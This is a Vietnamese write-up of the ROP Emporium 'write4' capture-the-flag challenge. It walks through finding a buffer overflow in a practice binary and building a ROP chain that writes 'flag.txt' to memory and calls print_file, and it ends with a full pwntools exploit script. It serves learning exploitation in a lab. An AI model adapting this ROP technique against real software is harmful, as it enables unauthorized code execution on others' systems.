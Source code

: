 # ROP_Emporium - write4

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
write4: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=4cbaee0791e9daa7dcc909399291b57ffaf4ecbe, not stripped

```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'.'

```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file bằng IDA PRO 64bit. Có thể thấy hàm khai thác là hàm **pwnme()**:

Hàm pwnme()

![pwnme.png](images/pwnme.png)

Ở đây ta không nhìn được cách hàm pwnme() hoạt động nên ta sẽ đọc mã assembly từ file binary:

![pwnme2.png](images/pwnme2.png)

Còn có hàm usefulFunction()

![usefulFunction.png](images/usefulFunction.png)

cũng như usefulGadgets()

![usefulGadgets.png](images/usefulGadgets.png)

# 2. Ý tưởng

Có thể thấy chức năng hàm usefulFunction() để in ra file nên ta sẽ lợi dụng BOF để sửa tham số **nonexistent** thành flag.txt để hàm này đọc flag file và in ra

# 3. Khai thác

Ta cũng sẽ tìm offset tới rip bằng gdb như sau:

![offset.png](images/offset.png)

Có thể thấy ở hàm usefulFunction() sẽ lấy tham số để đọc file bằng thanh ghi edi --> ta sẽ truyền tham số mới cho edi tại đây
![usefulFunction2.png](images/usefulFunction2.png)

Đối với usefulGadgets() có **mov    QWORD PTR [r14],r15** để đưa giá trị từ thanh ghi r15 vào giá trị tại địa chỉ thanh ghi r14 mà khi ta tra bảng gadget có **pop r14, r15, ret**

![pop_r14.png](images/pop_r14.png)

Mà trong file không có sẵn chuỗi "flag.txt"
--> Ta sẽ dùng usefulGadgets() để ghi chuỗi "flag.txt" vào 1 vị trí trống nào đó

Tìm 1 địa chỉ trống có quyền ghi:

![vmmap.png](images/vmmap.png)

ở đây trong khoảng [0x00601000 - 0x00602000] có quyền đọc và ghi

Tiếp đến kiếm đại 1 địa chỉ trống:

![strstr.png](images/strstr.png)

ở đây mình sẽ lấy **0x601140**


ROP_chain ta sẽ làm như sau:

- pop 2 thanh ghi r14 và r15 để ghi vào chúng
- đẩy vào r14 địa chỉ cần ghi vào
- đưa chuỗi "flag.txt" vào r15
- sử dụng usefulGadget() để đưa giá trị "flag.txt" vào địa chỉ cần ghi
- pop rdi ra để đưa địa chỉ chữa chuỗi "flag.txt" vào
- nhảy đến hàm print_file sau khi đã setup thanh ghi rdi

Full code:
```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./write4', checksec=False)

p = process("./write4")

#gdb.attach(p, gdbscript='''''')

ret = ROP(elf).find_gadget(["ret"])[0]
pop_rdi_ret = ROP(elf).find_gadget(["pop rdi", "ret"])[0]
pop_r14_r15 = ROP(elf).find_gadget(["pop r14", "pop r15", "ret"])[0]
vuln = elf.sym['usefulFunction']
gadget = elf.sym['usefulGadgets']

null_addr = 0x601140

payload = flat(
    cyclic(0x28),
    pop_r14_r15,
    null_addr,
    b"flag.txt",
    gadget,
    pop_rdi_ret,
    null_addr,
    vuln+9
    )
p.sendlineafter(b">",payload)
p.interactive()

```
# 4. Lấy flag

![flag.png](images/flag.png)


